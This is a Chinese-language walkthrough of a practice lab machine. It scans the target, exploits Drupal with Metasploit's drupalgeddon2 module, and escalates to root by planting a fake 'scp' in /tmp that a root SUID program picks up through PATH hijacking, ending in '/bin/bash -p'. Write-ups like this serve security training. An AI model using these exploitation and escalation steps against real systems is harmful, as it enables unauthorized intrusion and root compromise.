# billu靶场复现2

攻击机：kali	NAT

靶机：		NAT

## 信息搜集

进行主机发现

```yaml
nmap 192.168.21.0/24
```



发现80端口开放，访问一下web页面，查看有什么功能点，发现一个搜索框，尝试 sql注入无果



右上角有的登录入口，尝试看一下，发现还是没有sql注入



打开注册页面，发现可以上传图片，先上传一个图片马，确实上传成功了，但是没有触发点



进行一下目录扫描

```yaml
dirsearch -u 192.168.21.135 --include-status=200,301 -t 50
```



经过查看，大多数没有什么有价值的信息，基本都是登陆后才能查看，但是有一个页面把当前的框架泄露了，看有没有历史漏洞



## GETSHELL

使用msfconsole进行发现和攻击

```yaml
msfconsole：一个集成了大量漏洞利用模块、辅助工具和后渗透功能的渗透测试平台
```



因为探出是8.35版本，所以使用模块

```yaml
use exploit/unix/webapp/drupal_drupalgeddon2
```



会话连接成功



进入shell，同时tty升级还有搜集系统和用户信息

```yaml
python -c 'import pty;pty.spawn("/bin/bash")'
```



## 提权

寻找suid文件

```yaml
find / -perm -4000 2>/dev/null
```



发现可疑文件/opt，不像是系统的程序，可能是第三方程序，查看程序的信息，发现重要的突破口，文件属于root，执行时是root权限，普通用户可以执行，于是有了方案，



strings /opt/s发现关键信息，貌似可以 用suid路径劫持提权

```yaml
starting copy of root user files....

scp -r /root/* b0x@127.0.0.1:/var/backup
```

‍

```SUID
suid路径劫持提权：
	SUID 程序以 root 权限运行时，如果内部通过 system() 调用了没有绝对路径的外部程序（如 scp）
	shell 会根据 PATH 环境变量搜索该程序。
	如果攻击者可以控制 PATH，并提前放置一个同名恶意程序（如伪造 scp）
	那么 root 权限的 SUID 程序就会执行攻击者控制的程序，从而实现权限提升。
```

先进行测试，发现确实是以root权限运行的这个程序

```yaml
cd /tmp									
										//切换到系统的临时目录 /tmp（几乎所有用户都有读写权限）					
echo 'id > /tmp/result' > scp			
										//创建一个名为 scp 的文件，内容是一行命令：id > /tmp/result
chmod +x scp
										//给这个 scp 文件添加可执行权限。
```



重新写一下程序

原理：`/bin/bash`​ 被 root 权限程序启动时，会继承 root 的有效权限，但是 bash 默认为了安全会放弃这种 SUID 权限；加上 `-p` 参数后，可以保留有效 UID，因此得到 root 权限 shell。

```yaml
cat > /tmp/scp <<'EOF'
#!/bin/bash					//告诉操作系统内核："这个脚本文件要用 /bin/bash 这个程序来执行
/bin/bash -p				//启动一个新的 Bash Shell，并启用特权模式
EOF
```




‍
